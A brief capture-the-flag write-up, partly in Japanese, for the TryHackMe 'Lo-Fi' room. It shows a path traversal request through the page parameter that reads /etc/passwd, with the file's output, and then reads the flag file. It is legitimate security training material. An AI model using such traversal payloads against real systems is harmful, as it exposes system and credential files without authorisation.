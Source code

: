 # Lo-Fi CTF

https://tryhackme.com/r/room/lofi

```text
Want to hear some lo-fi beats, to relax or study to? We've got you covered! 

Access this challenge by deploying both the vulnerable machine by pressing the green "Start Machine" button located within this task, and the TryHackMe AttackBox by pressing the  "Start AttackBox" button located at the top-right of the page.
Navigate to the following URL using the AttackBox: http://10.10.91.76 and find the flag in the root of the filesystem.
```

## パストラバーサル

http://10.10.91.76/?page=../../../../etc/passwd

```text
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
```

http://10.10.91.76/?page=../../../../flag.txt

```text
flag{e44.....} 
```

## 振り返り
- ファイルシステムのルートにフラグがあるというヒントから、ファイル名決め打ちで一回目のトライで発見。開始から3分ほど。
- 他にやり方あるのかな？不明。
